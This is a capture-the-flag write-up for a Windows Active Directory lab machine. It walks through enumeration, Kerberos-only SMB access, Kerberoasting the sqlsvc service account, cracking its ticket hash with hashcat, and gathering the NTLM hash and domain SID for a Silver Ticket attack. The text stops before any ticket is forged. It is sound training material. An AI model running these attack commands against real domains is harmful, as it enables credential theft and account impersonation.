





# Scrambled
## Enumeration
- `nmap`
```
└─$ nmap -Pn -p- 10.10.11.168 -T4                   
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-12 16:42 BST
Nmap scan report for 10.10.11.168 (10.10.11.168)
Host is up (0.092s latency).
Not shown: 65516 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
1433/tcp  open  ms-sql-s
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
49668/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  unknown
49697/tcp open  unknown
49701/tcp open  unknown

```
```
└─$ nmap -Pn -p53,80,88,135,139,389,445,464,593,636,1433,4411,5985,9389 -sC -sV 10.10.11.168 -T4
Starting Nmap 7.94 ( https://nmap.org ) at 2023-09-12 16:53 BST
Nmap scan report for 10.10.11.168 (10.10.11.168)
Host is up (0.17s latency).

Bug in ms-sql-ntlm-info: no string output.
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Scramble Corp Intranet
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-09-12 15:53:28Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
|_ssl-date: 2023-09-12T15:56:40+00:00; -37s from scanner time.
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T15:30:57
|_Not valid after:  2023-06-09T15:30:57
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: scrm.local0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC1.scrm.local
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC1.scrm.local
| Not valid before: 2022-06-09T15:30:57
|_Not valid after:  2023-06-09T15:30:57
|_ssl-date: 2023-09-12T15:56:40+00:00; -37s from scanner time.
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-info: 
|   10.10.11.168:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2023-09-12T15:56:40+00:00; -37s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2023-09-12T15:09:29
|_Not valid after:  2053-09-12T15:09:29
4411/tcp open  found?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, GenericLines, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, NCP, NULL, NotesRPC, RPCCheck, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|   FourOhFourRequest, GetRequest, HTTPOptions, Help, LPDString, RTSPRequest, SIPOptions: 
|     SCRAMBLECORP_ORDERS_V1.0.3;
|_    ERROR_UNKNOWN_COMMAND;
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp open  mc-nmf        .NET Message Framing
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4411-TCP:V=7.94%I=7%D=9/12%Time=6500899D%P=x86_64-pc-linux-gnu%r(NU
SF:LL,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(GenericLines,1D,"SCRAMBLEC
SF:ORP_ORDERS_V1\.0\.3;\r\n")%r(GetRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.
SF:3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(HTTPOptions,35,"SCRAMBLECORP_ORDER
SF:S_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RTSPRequest,35,"SCRAMBLEC
SF:ORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(RPCCheck,1D,"SCR
SF:AMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(DNSVersionBindReqTCP,1D,"SCRAMBLECOR
SF:P_ORDERS_V1\.0\.3;\r\n")%r(DNSStatusRequestTCP,1D,"SCRAMBLECORP_ORDERS_
SF:V1\.0\.3;\r\n")%r(Help,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNO
SF:WN_COMMAND;\r\n")%r(SSLSessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n
SF:")%r(TerminalServerCookie,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TLS
SF:SessionReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(Kerberos,1D,"SCRAM
SF:BLECORP_ORDERS_V1\.0\.3;\r\n")%r(SMBProgNeg,1D,"SCRAMBLECORP_ORDERS_V1\
SF:.0\.3;\r\n")%r(X11Probe,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(FourO
SF:hFourRequest,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND
SF:;\r\n")%r(LPDString,35,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_
SF:COMMAND;\r\n")%r(LDAPSearchReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%
SF:r(LDAPBindReq,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(SIPOptions,35,"
SF:SCRAMBLECORP_ORDERS_V1\.0\.3;\r\nERROR_UNKNOWN_COMMAND;\r\n")%r(LANDesk
SF:-RC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(TerminalServer,1D,"SCRAMB
SF:LECORP_ORDERS_V1\.0\.3;\r\n")%r(NCP,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r
SF:\n")%r(NotesRPC,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(JavaRMI,1D,"S
SF:CRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(WMSRequest,1D,"SCRAMBLECORP_ORDERS
SF:_V1\.0\.3;\r\n")%r(oracle-tns,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r
SF:(ms-sql-s,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n")%r(afp,1D,"SCRAMBLECOR
SF:P_ORDERS_V1\.0\.3;\r\n")%r(giop,1D,"SCRAMBLECORP_ORDERS_V1\.0\.3;\r\n");
Service Info: Host: DC1; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -37s, deviation: 0s, median: -37s
| smb2-time: 
|   date: 2023-09-12T15:56:01
|_  start_date: N/A
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 199.93 seconds
```
- `dap`
```
└─$ ldapsearch -H ldap://10.10.11.168 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts 
#

#
dn:
namingcontexts: DC=scrm,DC=local
namingcontexts: CN=Configuration,DC=scrm,DC=local
namingcontexts: CN=Schema,CN=Configuration,DC=scrm,DC=local
namingcontexts: DC=DomainDnsZones,DC=scrm,DC=local
namingcontexts: DC=ForestDnsZones,DC=scrm,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1

```
```
└─$ ldapsearch -H ldap://10.10.11.168 -x -b "DC=scrm,DC=local" 
# extended LDIF
#
# LDAPv3
# base <DC=scrm,DC=local> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090A5C, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1

```

- `dns`
```
└─$ dig @10.10.11.168 scrm.local                                                                                            

; <<>> DiG 9.18.16-1-Debian <<>> @10.10.11.168 scrm.local
; (1 server found)
;; global options: +cmd
;; Got answer:
;; WARNING: .local is reserved for Multicast DNS
;; You are currently testing what happens when an mDNS query is leaked to DNS
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 20897
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 1, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;scrm.local.                    IN      A

;; ANSWER SECTION:
scrm.local.             600     IN      A       10.10.11.168

;; Query time: 143 msec
;; SERVER: 10.10.11.168#53(10.10.11.168) (UDP)
;; WHEN: Tue Sep 12 17:47:56 BST 2023
;; MSG SIZE  rcvd: 55

```
```
└─$ dig axfr @10.10.11.168 scrm.local

; <<>> DiG 9.18.16-1-Debian <<>> axfr @10.10.11.168 scrm.local
; (1 server found)
;; global options: +cmd
; Transfer failed.
```


- Web Server



- `NTLM` is disabled


- Password reset
  - States that password will be the same as username when reset



- IT support
  - Possible user `ksimpson`


- New account form


- `Sales orders app`


- Let's see query `dc1` dns
```
└─$ nslookup dc1.scrm.local 10.10.11.168 
Server:         10.10.11.168
Address:        10.10.11.168#53

Name:   dc1.scrm.local
Address: 10.10.11.168
Name:   dc1.scrm.local
Address: dead:beef::bd65:c83c:6338:a949
Name:   dc1.scrm.local
Address: dead:beef::154
```

## Foothold
- If we try `smbclient`, it doesn't work since `NTLM` is disabled
  - We can try `impacket-smbclient` with `kerberos` authentication
```
└─$ impacket-smbclient -k scrm.local/ksimpson:ksimpson@dc1.scrm.local -dc-ip 10.10.11.168
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
Type help for list of commands
# help

 open {host,port=445} - opens a SMB connection against the target host/port
 login {domain/username,passwd} - logs into the current SMB connection, no parameters for NULL connection. If no password specified, it'll be prompted
 kerberos_login {domain/username,passwd} - logs into the current SMB connection using Kerberos. If no password specified, it'll be prompted. Use the DNS resolvable domain name
 login_hash {domain/username,lmhash:nthash} - logs into the current SMB connection using the password hashes
 logoff - logs off
 shares - list available shares
 use {sharename} - connect to an specific share
 cd {path} - changes the current directory to {path}
 lcd {path} - changes the current local directory to {path}
 pwd - shows current remote directory
 password - changes the user password, the new password will be prompted for input
 ls {wildcard} - lists all the files in the current directory
 rm {file} - removes the selected file
 mkdir {dirname} - creates the directory under the current path
 rmdir {dirname} - removes the directory under the current path
 put {filename} - uploads the filename into the current path
 get {filename} - downloads the filename from the current path
 mget {mask} - downloads all files from the current directory matching the provided mask
 cat {filename} - reads the filename from the current path
 mount {target,path} - creates a mount point from {path} to {target} (admin required)
 umount {path} - removes the mount point at {path} without deleting the directory (admin required)
 list_snapshots {path} - lists the vss snapshots for the specified path
 info - returns NetrServerInfo main results
 who - returns the sessions currently connected at the target host (admin required)
 close - closes the current SMB Session
 exit - terminates the server process (and this session)

```

- List of shares
```
# shares
ADMIN$
C$
HR
IPC$
IT
NETLOGON
Public
Sales
SYSVOL

```
- We have access to `Public` share
  - Let's download `Network Security Changes.pdf`
```
# use HR
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
# use Sales
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
# use IT
[-] SMB SessionError: STATUS_ACCESS_DENIED({Access Denied} A process has requested access to an object but has not been granted those access rights.)
# use Public
# ls
drw-rw-rw-          0  Thu Nov  4 22:23:19 2021 .
drw-rw-rw-          0  Thu Nov  4 22:23:19 2021 ..
-rw-rw-rw-     630106  Fri Nov  5 17:45:07 2021 Network Security Changes.pdf
# get Network Security Changes.pdf
# 

```

- Content of `Network Security Changes.pdf`



- The company uses `kerberos` for auth
  - Let's check for `Kerberostable` users
  - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/kerberoast
```
└─$ impacket-GetUserSPNs scrm.local/ksimpson:ksimpson -dc-host dc1.scrm.local -request -k -no-pass
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[-] CCache file is not found. Skipping...
ServicePrincipalName          Name    MemberOf  PasswordLastSet             LastLogon                   Delegation 
----------------------------  ------  --------  --------------------------  --------------------------  ----------
MSSQLSvc/dc1.scrm.local:1433  sqlsvc            2021-11-03 16:32:02.351452  2023-09-12 16:09:27.626803             
MSSQLSvc/dc1.scrm.local       sqlsvc            2021-11-03 16:32:02.351452  2023-09-12 16:09:27.626803             


[-] CCache file is not found. Skipping...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$cfc4b32a63f2f11d2c6f0983dbaece04$319dc6f2ce6e6edb39b3d4beaefb9bda37eaf3c01ba5b9855e556694a353e0eb18493011d02ca4d0450bff6f5e7d6684b04c43e18539d79190a5cf48f15c9def761c6cb9c927716bf63b2a2acaab64459d137b50628a9f536c408e34b4bf0a59ee2186de4403248b38b2f12e59d19c8b7daf494243019a74b20580efe0e9e02c217da9519e12b66e4b90622feda42094f9897d82635e2689ee9861d770d9c790940185c17fd7840f54010fd5d6fe6ba0402ed8a37f5993ac8e9821809b46027300e298ea17aa56923df7fdb05d016e99066487e276bfdbae0a56c2ed57ad0e1281343accf68f84b301fe5ccdffb71439b9afd75b3de9eeb20bbb99255cfeb0edd324bb92cf82aa26f8ffabcd607c4e913941de269e0b5ad8346a91be81b5a638e922ae443b43a1caa240b6401ff60749e80f5e383579eb28d9dfed639c8a57a115cbe654a4e841918d1ed76c59c660fd7c0d3b258a1e638e34e65e32cc60af5b4a3583ffb3e3274602c618ccff18d034537d57abee7ec124d6067649d39c2f0bd9dc9c62f6c70fbe0012735bebabc32bdf83977e2190d2159e90a91878c36a59b1c064f04460a4888d98eb420027e192598b377d369b566ab16f773d7861f3a2caf73db1b42bbc30c69413240c817429129b2aa5cebff9842e360a9af497e47b61c0246b97d5b90a3380c0972698cee34b9ee3a0359545319960670fc3f8c0b1e61518c34a971f22e4c5e585b5e0ed82350767c325d399a8388cc75819d022037f092d4af3f0a5ce9352d1879599391c179093109bd1b1e54ac64a5b3cbee85f9630b897a1b5b78129767707ad8926ecd7a19ca28e375b4a193b4ab146c47af86e636b1a9d7639b7bad40de6542480538f3ef5102c06a6fc35479d2f713862762dbd3c865c7c2d5f836e002b3a5f915086ee47023bfc147ae07b3c48ed2f3481edb321c7c4d5ff4cad67831a4bb8d1c5fc82a0d8397ce783ba9494eb1e65bfa313307b810cb9eb57da33c821c806639ff07f2a04e8e51c0fd3428059a64056feb6bdf82625762da1a1e06c81f9f31a0194b71557c70e0e9931a68365f3a9244e8e59221be052e8e9751bd4df3ecdde718a96d0914209e3d8a3fdf22dad1ddfe7846f9ed7962972311efc8ee6664b9ddb9a0604f400e42bd3cc983524bb5df94c07d04cc865a24e0bfea62592fed7a11f1a59bff4c56acc16399ebf5aa1f61b203eb114528dc054751ca58b1e6f577f5d8851bb489c5febf64284266a2a4fdd3b367cafe0309375f52dc81a8f81e0aa0e357452a9804ef9d48289f6d158e2eb55212d47a348fb9d4a996c90e8ac5dcdcfcfa897a8383686de23ceeee123d79490655accff8743e70807f85b0bce797330cc3d8fcd315343803eb973a773bbca722df5096490549dba8ce61b3503def77f57a0a09904ed92b4e8040b
```

- Let's try cracking it
```
└─$ hashcat --help | grep Kerb
  19600 | Kerberos 5, etype 17, TGS-REP                              | Network Protocol
  19800 | Kerberos 5, etype 17, Pre-Auth                             | Network Protocol
  28800 | Kerberos 5, etype 17, DB                                   | Network Protocol
  19700 | Kerberos 5, etype 18, TGS-REP                              | Network Protocol
  19900 | Kerberos 5, etype 18, Pre-Auth                             | Network Protocol
  28900 | Kerberos 5, etype 18, DB                                   | Network Protocol
   7500 | Kerberos 5, etype 23, AS-REQ Pre-Auth                      | Network Protocol
  13100 | Kerberos 5, etype 23, TGS-REP                              | Network Protocol
  18200 | Kerberos 5, etype 23, AS-REP                               | Network Protocol
```
```
└─$ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting
...
$krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$cfc4b32a63f2f11d2c6f0983dbaece04$319dc6f2ce6e6edb39b3d4beaefb9bda37eaf3c01ba5b9855e556694a353e0eb18493011d02ca4d0450bff6f5e7d6684b04c43e18539d79190a5cf48f15c9def761c6cb9c927716bf63b2a2acaab64459d137b50628a9f536c408e34b4bf0a59ee2186de4403248b38b2f12e59d19c8b7daf494243019a74b20580efe0e9e02c217da9519e12b66e4b90622feda42094f9897d82635e2689ee9861d770d9c790940185c17fd7840f54010fd5d6fe6ba0402ed8a37f5993ac8e9821809b46027300e298ea17aa56923df7fdb05d016e99066487e276bfdbae0a56c2ed57ad0e1281343accf68f84b301fe5ccdffb71439b9afd75b3de9eeb20bbb99255cfeb0edd324bb92cf82aa26f8ffabcd607c4e913941de269e0b5ad8346a91be81b5a638e922ae443b43a1caa240b6401ff60749e80f5e383579eb28d9dfed639c8a57a115cbe654a4e841918d1ed76c59c660fd7c0d3b258a1e638e34e65e32cc60af5b4a3583ffb3e3274602c618ccff18d034537d57abee7ec124d6067649d39c2f0bd9dc9c62f6c70fbe0012735bebabc32bdf83977e2190d2159e90a91878c36a59b1c064f04460a4888d98eb420027e192598b377d369b566ab16f773d7861f3a2caf73db1b42bbc30c69413240c817429129b2aa5cebff9842e360a9af497e47b61c0246b97d5b90a3380c0972698cee34b9ee3a0359545319960670fc3f8c0b1e61518c34a971f22e4c5e585b5e0ed82350767c325d399a8388cc75819d022037f092d4af3f0a5ce9352d1879599391c179093109bd1b1e54ac64a5b3cbee85f9630b897a1b5b78129767707ad8926ecd7a19ca28e375b4a193b4ab146c47af86e636b1a9d7639b7bad40de6542480538f3ef5102c06a6fc35479d2f713862762dbd3c865c7c2d5f836e002b3a5f915086ee47023bfc147ae07b3c48ed2f3481edb321c7c4d5ff4cad67831a4bb8d1c5fc82a0d8397ce783ba9494eb1e65bfa313307b810cb9eb57da33c821c806639ff07f2a04e8e51c0fd3428059a64056feb6bdf82625762da1a1e06c81f9f31a0194b71557c70e0e9931a68365f3a9244e8e59221be052e8e9751bd4df3ecdde718a96d0914209e3d8a3fdf22dad1ddfe7846f9ed7962972311efc8ee6664b9ddb9a0604f400e42bd3cc983524bb5df94c07d04cc865a24e0bfea62592fed7a11f1a59bff4c56acc16399ebf5aa1f61b203eb114528dc054751ca58b1e6f577f5d8851bb489c5febf64284266a2a4fdd3b367cafe0309375f52dc81a8f81e0aa0e357452a9804ef9d48289f6d158e2eb55212d47a348fb9d4a996c90e8ac5dcdcfcfa897a8383686de23ceeee123d79490655accff8743e70807f85b0bce797330cc3d8fcd315343803eb973a773bbca722df5096490549dba8ce61b3503def77f57a0a09904ed92b4e8040b:Pegasus60
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 13100 (Kerberos 5, etype 23, TGS-REP)
Hash.Target......: $krb5tgs$23$*sqlsvc$SCRM.LOCAL$scrm.local/sqlsvc*$c...e8040b
Time.Started.....: Tue Sep 12 20:03:57 2023 (10 secs)
Time.Estimated...: Tue Sep 12 20:04:07 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1006.9 kH/s (0.42ms) @ Accel:256 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10729472/14344385 (74.80%)
Rejected.........: 0/10729472 (0.00%)
Restore.Point....: 10728960/14344385 (74.80%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: Pekqhua* -> Pearson1
Hardware.Mon.#1..: Util: 90%

Started: Tue Sep 12 20:03:56 2023
Stopped: Tue Sep 12 20:04:08 2023
```

- We have `sqlsvc:Pegasus60`
  - But the creds doesn't give anything
  - We can perform `Silver Ticket` attack
    - `The Silver ticket attack is based on crafting a valid TGS for a service once the NTLM hash of service is owned (like the PC account hash). Thus, it is possible to gain access to that service by forging a custom TGS as any user.`
    - https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/silver-ticket
  - We need: 
    - `NTLM` hash
    - The `SID` of the domain
    - `SPN` of the account
  - Let's convert password to `NTLM`
    - https://blog.atucom.net/2012/10/generate-ntlm-hashes-via-command-line.html
```
└─$ iconv -f ASCII -t UTF-16LE <(printf "Pegasus60") | openssl dgst -md4
MD4(stdin)= b999a16500b87d17ec7f2e2a68778f05
```



- Let's get `SID` of the domain
```
└─$ ldapsearch -H ldap://dc1.scrm.local -D ksimpson@scrm.local -w ksimpson -b "DC=scrm,DC=local"                          
ldap_bind: Strong(er) authentication required (8)
        additional info: 00002028: LdapErr: DSID-0C090259, comment: The server requires binds to turn on integrity checking if SSL\TLS are not already active on the connection, data 0, v4563
```

- I need to download the certificate

```
└─$ openssl s_client -connect dc1.scrm.local:636 < /dev/null | sed -ne '/-BEGIN CERTIFICATE-/,/-END CERTIFICATE-/p' 
depth=0 CN = DC1.scrm.local
verify error:num=20:unable to get local issuer certificate
verify return:1
depth=0 CN = DC1.scrm.local
verify error:num=21:unable to verify the first certificate
verify return:1
depth=0 CN = DC1.scrm.local
verify return:1
-----BEGIN CERTIFICATE-----
MIIGHDCCBQSgAwIBAgITEgAAAAOnziQ14yF6dQAAAAAAAzANBgkqhkiG9w0BAQUF
ADBDMRUwEwYKCZImiZPyLGQBGRYFbG9jYWwxFDASBgoJkiaJk/IsZAEZFgRzY3Jt
MRQwEgYDVQQDEwtzY3JtLURDMS1DQTAeFw0yMzA5MTIyMjU4MjVaFw0yNDA5MTEy
MjU4MjVaMBkxFzAVBgNVBAMTDkRDMS5zY3JtLmxvY2FsMIIBIjANBgkqhkiG9w0B
AQEFAAOCAQ8AMIIBCgKCAQEAwVjLBnJ5jxlXIaflyk+A/cjJL+459zVrtlS1O+6g
XuHi4dK/FgI57emiUM6w5HWcN0+BqFdkqiyBLKN8ciWuNVZ9yIT2SScoldyj2PHc
y8C8it7zHuiflgTtVwgxNzGsLNm326viZPxOcHYZMlxgZLj+1HgUCgRhz7XlLjJX
K3n7dsClvER5v+XzM7j2rx0LbdMgZ4SHWVQVkrWp4DK04hWRdo/T+lxS40lKfJ8X
U4MA0Nn9dEyE09Hwbue8ikiRYNhV7Ea4Fb5pDuOe3zVTobIazAhnOqAHaa7COXPx
Y3qckhHDuhh0uVTO73PKV2uhePOOenHvdW3eBUtyi279zQIDAQABo4IDMTCCAy0w
LwYJKwYBBAGCNxQCBCIeIABEAG8AbQBhAGkAbgBDAG8AbgB0AHIAbwBsAGwAZQBy
MB0GA1UdJQQWMBQGCCsGAQUFBwMCBggrBgEFBQcDATAOBgNVHQ8BAf8EBAMCBaAw
eAYJKoZIhvcNAQkPBGswaTAOBggqhkiG9w0DAgICAIAwDgYIKoZIhvcNAwQCAgCA
MAsGCWCGSAFlAwQBKjALBglghkgBZQMEAS0wCwYJYIZIAWUDBAECMAsGCWCGSAFl
AwQBBTAHBgUrDgMCBzAKBggqhkiG9w0DBzAdBgNVHQ4EFgQUTCZWTY3oLpQFrXlk
rF5NdzbBjpYwHwYDVR0jBBgwFoAUCGlCGQotn3BwNjRGHOcdhhWbaJIwgcQGA1Ud
HwSBvDCBuTCBtqCBs6CBsIaBrWxkYXA6Ly8vQ049c2NybS1EQzEtQ0EsQ049REMx
LENOPUNEUCxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1TZXJ2aWNlcyxD
Tj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y2VydGlmaWNhdGVSZXZv
Y2F0aW9uTGlzdD9iYXNlP29iamVjdENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50
MIG8BggrBgEFBQcBAQSBrzCBrDCBqQYIKwYBBQUHMAKGgZxsZGFwOi8vL0NOPXNj
cm0tREMxLUNBLENOPUFJQSxDTj1QdWJsaWMlMjBLZXklMjBTZXJ2aWNlcyxDTj1T
ZXJ2aWNlcyxDTj1Db25maWd1cmF0aW9uLERDPXNjcm0sREM9bG9jYWw/Y0FDZXJ0
aWZpY2F0ZT9iYXNlP29iamVjdENsYXNzPWNlcnRpZmljYXRpb25BdXRob3JpdHkw
OgYDVR0RBDMwMaAfBgkrBgEEAYI3GQGgEgQQZxIub1TYH0SkXtctiXUFOYIOREMx
LnNjcm0ubG9jYWwwTwYJKwYBBAGCNxkCBEIwQKA+BgorBgEEAYI3GQIBoDAELlMt
MS01LTIxLTI3NDMyMDcwNDUtMTgyNzgzMTEwNS0yNTQyNTIzMjAwLTEwMDAwDQYJ
KoZIhvcNAQEFBQADggEBAHejAv0dYre1sg5vNiwwWwlI8U4a/9MWkTSdMCUe+JEu
dPAdZKIEzsPkFIHIAl5+S5Yb/aPNtekGvEyLJ5k2f14YJg5b2iscS6pgVTYsAEGp
z6pjy1DNUIeDuk7RDoKFG+yYwxc24K1RchkbKLZhQdDkZ7KJlkN9cnV0ioVWLLmy
R6WUrzxggnkC4B4dPWqR2QVki88DorQt961ccAZF/KegcjUK2iZ8+y8jiukT51oV
UaZIXMP0j8qs/sW0Vn4WCL0Iv1pzj4D2l4qTHoPR5tcC5qMQVNrYTquq567o+JZS
2XWj/FmV8lo3bu4B3zfoPQBJYUqQVrKzfuAqYyyp9os=
-----END CERTIFICATE-----
DONE            
```
```
└─$ openssl s_client -connect dc1.scrm.local:636 < /dev/null | sed -ne '/-BEGIN CERTIFICATE-/,/-END CERTIFICATE-/p' > scrm.local.crt
depth=0 CN = DC1.scrm.local
verify error:num=20:unable to get local issuer certificate
verify return:1
depth=0 CN = DC1.scrm.local
verify error:num=21:unable to verify the first certificate
verify return:1
depth=0 CN = DC1.scrm.local
verify return:1
DONE
```

- Edit `/etc/ldap/ldap.conf`
```
#
# LDAP Defaults
#

# See ldap.conf(5) for details
# This file should be world readable but not world writable.

#BASE   dc=example,dc=com
#URI    ldap://ldap.example.com ldap://ldap-provider.example.com:666

#SIZELIMIT      12
#TIMELIMIT      15
#DEREF          never

# TLS certificates (needed for GnuTLS)
#TLS_CACERT     /etc/ssl/certs/ca-certificates.crt
TLS_CACERT      /home/kali/Documents/tasks/scrm.local.crt
```

- Let's run `ldapsearch` again
```
└─$ ldapsearch -H ldap://dc1.scrm.local -Z -D ksimpson@scrm.local -w ksimpson -b "DC=scrm,DC=local" "(objectClass=user)" 
# extended LDIF
#
# LDAPv3
# base <DC=scrm,DC=local> with scope subtree
# filter: (objectClass=user)
# requesting: ALL
#

# Administrator, Users, scrm.local
dn: CN=Administrator,CN=Users,DC=scrm,DC=local
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: Administrator
description: Built-in account for administering the computer/domain
distinguishedName: CN=Administrator,CN=Users,DC=scrm,DC=local
...
objectSid:: AQUAAAAAAAUVAAAAhQSCo0F98mxA04uX9AEAAA==
...
```

- `SID` is in string form
  - We need to convert it
  - https://devblogs.microsoft.com/oldnewthing/20040315-00/?p=40253
  - https://stackoverflow.com/a/65364978
     - `S-1-5-21-2743207045-1827831105-2542523200-500`
```
import base64
from samba.dcerpc import security
from samba.ndr import ndr_unpack


base64_sid = "AQUAAAAAAAUVAAAAhQSCo0F98mxA04uX9AEAAA=="
binary_sid = base64.b64decode(base64_sid)

print(str(ndr_unpack(security.dom_sid, binary_sid)))
```
```
└─$ python3 sid_binary_to_string.py 
S-1-5-21-2743207045-1827831105-2542523200-500
```

- We can also use `impacket-getPac` to get the `SID`
```
└─$ impacket-getPac -targetUser administrator scrm.local/ksimpson:ksimpson                      
Impacket v0.11.0 - Copyright 2023 Fortra

KERB_VALIDATION_INFO 
LogonTime:                      
    dwLowDateTime:                   222038284 
    dwHighDateTime:                  31057291 
LogoffTime:                     
    dwLowDateTime:                   4294967295 
    dwHighDateTime:                  2147483647 
KickOffTime:                    
    dwLowDateTime:                   4294967295 
    dwHighDateTime:                  2147483647 
PasswordLastSet:                
    dwLowDateTime:                   2585823167 
    dwHighDateTime:                  30921784 
PasswordCanChange:              
    dwLowDateTime:                   3297396671 
    dwHighDateTime:                  30921985 
PasswordMustChange:             
    dwLowDateTime:                   4294967295 
    dwHighDateTime:                  2147483647 
EffectiveName:                   'administrator' 
...
ResourceGroupCount:              1 
ResourceGroupIds:               
    [
         
        RelativeId:                      572 
        Attributes:                      536870919 ,
    ] 
Domain SID: S-1-5-21-2743207045-1827831105-2542523200

 0000   10 00 00 00 4E F3 44 2B  F2 47 34 D9 3C 0F 53 68   ....N.D+.G4.<.Sh
```

- Now we have all we need
